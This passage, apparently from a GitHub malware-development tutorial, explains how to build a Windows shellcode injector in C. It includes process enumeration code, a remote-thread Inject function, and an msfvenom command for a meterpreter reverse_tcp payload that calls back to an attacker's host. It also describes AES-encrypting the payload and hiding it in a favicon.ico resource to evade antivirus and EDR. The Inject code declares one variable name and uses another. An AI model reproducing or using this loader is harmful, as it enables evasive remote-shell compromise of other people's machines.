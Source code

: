 ```c
                return 0;
        }
          
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
        
        CloseHandle(hProcSnap);
                
        return pid;
}
```
The third function is made to inject the payload in the PE process indentified by the pid. After finding the target process, the malware gets the handle of the target process by calling OpenProcess. 

```c
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;
	
		RemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProc, RemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        
        hThread = CreateRemoteThread(hProc, NULL, 0, RemoteCode, NULL, 0, NULL);
		
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}
```
Now, the last bit effort to have everything working, so first generate the payload. I choosed to use the most knowed payload for ATP and AV agents: the meterpreter reverse TCP payload:
```msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp -f raw -o sc_x64.bin LHOST=<your ip> LPORT=<your port> EXITFUNC=thread``` 
second we need to encrypt it with an AES script (you can find a lot of scripts for this purpouse on the Internet) and third we define the main function and the payload storage, we encrypted the payload in a file called ```favicon.ico``` that is included in the ```resources.h```
```
#define FAVICON_ICO 512
```
the main function could be defined by this steps:
1. extract the payload from the resources
2. allocate some memory space for the payload with the VirtualAlloc API
3. copy the payload to the new memory space just created
4. decrypt the payload
5. fihd the pid process you want to inject
6. open the process with the OpenProcess API and the pid
7. inject and execute the payload
8. close the handle

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#include <tlhelp32.h>
#include "resources.h"
#pragma comment (lib, "crypt32.lib")
```